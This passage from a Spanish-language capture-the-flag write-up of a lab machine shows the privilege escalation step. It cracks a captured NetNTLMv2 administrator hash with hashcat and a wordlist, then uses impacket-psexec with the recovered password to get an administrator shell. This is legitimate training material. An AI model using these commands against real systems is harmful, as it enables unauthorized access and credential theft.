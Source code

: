 ## <span style="color: yellow;">Escalada de privilegios</span>

#### <span style="color: gray;">Crackeo del hash NTLM-v2 del administrador</span>
```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $hashcat -m 5600 administrator-ntlmv2 /usr/share/wordlists/rockyou.txt  --force
hashcat (v6.1.1) starting...

...[SNIP]...

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 6 secs

ADMINISTRATOR::SNIPER:aaaaaaaaaaaaaaaa:37318c8f3a97979029b71ffeb6342f23:0101000000000000008da88685e7d90183e27c4dfa4d6fae000000000100100051004f007400550075004800770051000300100051004f00740055007500480077005100020010007900670044005700740056006c006e00040010007900670044005700740056006c006e0007000800008da88685e7d901060004000200000008003000300000000000000000000000003000007480d1ed9d12e146d86930de328cc3d8fcf8ccba147fa4ecd4ab81edf9fdbad80a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003500000000000000000000000000
:butterfly!#1
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::SNIPER:aaaaaaaaaaaaaaaa:37318c8f3a97...000000
Time.Started.....: Thu Sep 14 21:53:41 2023, (10 secs)
Time.Estimated...: Thu Sep 14 21:53:51 2023, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   194.1 kH/s (6.00ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1953792/14344385 (13.62%)
Rejected.........: 0/1953792 (0.00%)
Restore.Point....: 1950720/14344385 (13.60%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: c411426 -> burlfloor12

```
Y hashcat nos muestra la contraseña descifrada : "butterfly!#1". Vamos a intentar conectarnos a la máquina víctima como el usuario 'Administrator':

```
┌─[ot3ro@parrot]─[~/HTB/Sniper]
└──╼ $impacket-psexec SNIPER/Administrator:'butterfly!#1'@10.10.10.151

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.151.....
[*] Found writable share ADMIN$
[*] Uploading file fmBhbOfo.exe
[*] Opening SVCManager on 10.10.10.151.....
[*] Creating service sJwY on 10.10.10.151.....
[*] Starting service sJwY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.
```
